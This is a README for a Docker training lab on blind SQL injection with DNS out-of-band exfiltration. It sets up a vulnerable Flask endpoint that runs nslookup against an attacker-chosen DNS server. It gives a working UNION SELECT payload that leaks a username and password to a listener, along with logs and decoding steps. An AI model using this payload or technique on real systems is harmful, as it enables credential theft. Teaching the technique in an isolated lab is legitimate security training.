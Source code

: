 # Blind SQLi Lab with DNS Exfiltration (Out-of-Band)

This lab simulates a vulnerable web application that is susceptible to blind SQL injection. The application uses user input to perform DNS resolution on a hostname retrieved from a database, allowing for **out-of-band (OOB)** data exfiltration via DNS queries to a controlled server.

## 🧪 Lab Components

- **Flask Web App (`/web`)**: 
  - A vulnerable endpoint `/search?id=<number>` executes an unsanitized SQL query.
  - It uses `nslookup` to resolve a hostname retrieved from the database.
  - Optional parameter: `set-dns=<IP>` to specify a custom DNS server for resolution.

- **DNS Listener (`/dns-server`)**:
  - A Python script that runs a simple UDP DNS server and logs incoming raw DNS queries for analysis.

- **Docker**:
  - Docker Compose is used to run both services in isolated containers.

---

## 🛠️ How to Run the Lab

### Clone this repo

	git clone https://github.com/zinzloun/blindSQLi-DNS-OOB.git
 	cd cd blindSQLi-DNS-OOB

### Run containers

	sudo docker-compose build --no-cache
 	sudo docker-compose up                                     
	Creating network "blindsqli-dns-oob_dns-net" with the default driver
	Creating blindsqli-dns-oob_dns-server_1 ... done
	Creating blindsqli-dns-oob_web_1        ... done
	Attaching to blindsqli-dns-oob_web_1, blindsqli-dns-oob_dns-server_1
	web_1         |  * Serving Flask app 'app'
	web_1         |  * Debug mode: off
	web_1         | WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
	web_1         |  * Running on all addresses (0.0.0.0)
	web_1         |  * Running on http://127.0.0.1:5000
	web_1         |  * Running on http://172.20.53.10:5000
	web_1         | Press CTRL+C to quit

	
This will:

- Start the vulnerable web app at http://localhost:8080

- Start the DNS listener: default port UDP 53, internal docker net IP 172.20.53.53


### Payloads

- Using default DNS: this performs a lookup to www.google.it using default DNS -> OK
	
	  /search?id=1
	
Check web app console log

	web_1         | Server:         127.0.0.11
	web_1         | Address:        127.0.0.11#53
	web_1         | 
	web_1         | Non-authoritative answer:
	web_1         | Name:   www.google.it
	web_1         | Address: 216.58.204.227
	web_1         | Name:   www.google.it
	web_1         | Address: 2a00:1450:4002:415::2003
	web_1         | 
	web_1         | 172.20.53.1 - - [09/Jul/2025 08:31:51] "GET /search?id=1 HTTP/1.1" 200 -
	
 - Using custom DNS: this perform the same lookup query using our controlled DNS to resolve it -> Error (but it's expected)

	   /search?set-dns=172.20.53.53&id=1

Check web app console log

 	web_1         | 172.20.53.1 - - [09/Jul/2025 08:31:51] "GET /search?id=1 HTTP/1.1" 200 -
	web_1         | ;; communications error to 172.20.53.53#53: timed out
	web_1         | ;; communications error to 172.20.53.53#53: timed out
	web_1         | ;; communications error to 172.20.53.53#53: timed out
	web_1         | ;; no servers could be reached
	web_1         | 
	web_1         | 172.20.53.1 - - [09/Jul/2025 08:38:27] "GET /search?set-dns=172.20.53.53&id=1 HTTP/1.1" 200 -

	
Indeed check logged queries on our DSN container

	sudo docker exec -it blind-sqli-lab_dns-server_1 /bin/bash                                      
	root@004315a2105c:/app# cat dns_log.txt 

	2025-07-09 08:38:12,913 - DNS query from ('172.20.53.10', 41104): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:38:17,917 - DNS query from ('172.20.53.10', 41908): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:38:22,921 - DNS query from ('172.20.53.10', 57648): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001

 Decode the raw query:

 	root@004315a2105c:/app# exit
	[~/blindSQLi-DNS-OOB] python decode-raw-dnsq.py 942b010000010000000000000377777706676f6f676c650269740000010001        
	[+] Plain domain value: www.google.it

## 💥Exploitation 
Knowing tha we can control the DNS parameter for nslookup and assuming that a users table is also present in the DB, we can use the following payload to obtain sensitive information:

	/search?set-dns=172.20.53.53&id=1 UNION SELECT (SELECT username || '-' || password FROM users WHERE id=1)
 Check again the logged query

 	[~/blindSQLi-DNS-OOB] sudo docker exec -it blind-sqli-lab_dns-server_1 /bin/bash                              
	root@004315a2105c:/app# cat dns_log.txt 
	2025-07-09 08:38:12,913 - DNS query from ('172.20.53.10', 41104): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:38:17,917 - DNS query from ('172.20.53.10', 41908): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:38:22,921 - DNS query from ('172.20.53.10', 57648): RAW = 942b010000010000000000000377777706676f6f676c650269740000010001
	2025-07-09 08:50:39,508 - DNS query from ('172.20.53.10', 60256): RAW = 697e010000010000000000001161646d696e2d73757065727365637265740000010001
	2025-07-09 08:50:44,513 - DNS query from ('172.20.53.10', 49822): RAW = 697e010000010000000000001161646d696e2d73757065727365637265740000010001
	2025-07-09 08:50:49,517 - DNS query from ('172.20.53.10', 40392): RAW = 697e010000010000000000001161646d696e2d73757065727365637265740000010001
	root@004315a2105c:/app# 
Decode the last entries

 	root@004315a2105c:/app# exit
  	[~/blindSQLi-DNS-OOB] python decode-raw-dnsq.py 697e010000010000000000001161646d696e2d73757065727365637265740000010001                                                             
	[+] Plain domain value: admin-supersecret

## ❓ Why this Lab?
Incredible enough I found this logic implemented in a real app. The parameter where passed as JSON object in the body request to an API, but the logic was the same as presented in this lab, actually:
- no inpunt parameters validation
- control nslookup DNS server
You can eventually automete the process using SQLMap. You can find a good resource at https://blog.cyberadvisors.com/technical-blog/unblinding-blind-sql-injection-using-dns-exfiltration

## Useful docker commands

### Stop containers

	sudo docker compose down 
	
### Rebuild containers
	
	sudo docker-compose build --no-cache
